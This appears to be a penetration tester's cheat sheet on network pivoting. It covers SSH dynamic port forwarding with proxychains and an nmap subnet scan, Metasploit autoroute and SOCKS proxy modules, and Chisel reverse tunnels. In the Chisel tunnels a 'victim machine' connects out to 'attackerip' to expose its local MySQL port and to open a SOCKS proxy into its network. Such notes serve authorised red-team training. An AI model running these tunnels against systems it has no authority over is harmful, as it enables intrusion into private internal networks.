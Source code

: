 

## Dynamic Port Forwarding:
```bash
ssh -NfD 1080 user@KillaOcean
proxychains4 nmap 192.168.1.0/24
```
<br>

### autorun

```
post/multi/manage/autoroute
set session x
run

auxiliary/server/socks_proxy
```
<br>

# Pivoting

- [Pivoting](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Network%20Pivoting%20Techniques.md)

<br>

## Chisel

## Port Forwarding

#### Attacker Machine:
```powershell
chisel server -p 6666 --reverse
```

#### Victim Machine:
```powershell
chisel client attackerip:6666 R:2222:127.0.0.1:3306/tcp
```

<br>

## SOCKS Proxy

#### Attacker Machine:
```powershell
chisel server -p 6666 --socks5 --reverse
```

#### Victim Machine:
```powershell
chisel client attackerip:6666 R:5000:socks
```
